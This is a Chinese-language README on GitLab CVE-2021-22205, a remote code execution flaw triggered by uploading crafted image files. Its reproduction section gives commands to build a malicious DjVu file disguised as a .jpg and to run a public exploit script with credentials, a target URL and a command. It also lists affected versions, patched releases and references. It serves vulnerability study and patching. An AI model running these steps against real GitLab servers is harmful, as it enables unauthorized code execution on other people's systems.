

## Gitlab-CVE-2021-22205

## 概述

Gitlab 登录用户上传扩展名为```jpg|jpeg|tiff```的文件可能引发RCE。

## 复现

[复现](https://www.cnblogs.com/ybit/p/14918949.html)

环境：Centos

生成过程：

可以使用附件中的rce.txt修改payload:

	yum install djvulibre
	djvumake rce.djvu INFO=0,0 BGjp=/dev/null ANTa=rce.txt && mv rce.djvu rce.jpg

也可以直接附件中的修改rce.jpg。

上传图片



也可以直接利用[工具](https://github.com/mr-r3bot/Gitlab-CVE-2021-22205)

	python3 exploit.py -u <username> -p <password> -t <gitlab_url> -c <command>

## 影响版本

[影响版本](https://gitlab.com/gitlab-org/cves/-/blob/master/2021/CVE-2021-22205.json)

## 修复建议

建议用户将GitLab社区版（CE）和企业版（EE）版本升级至13.10.3、13.9.6和13.8.8进行防护。

## reference

[hackerone报告](https://hackerone.com/reports/1154542)

[原理-ExifTool CVE-2021-22204](https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html)

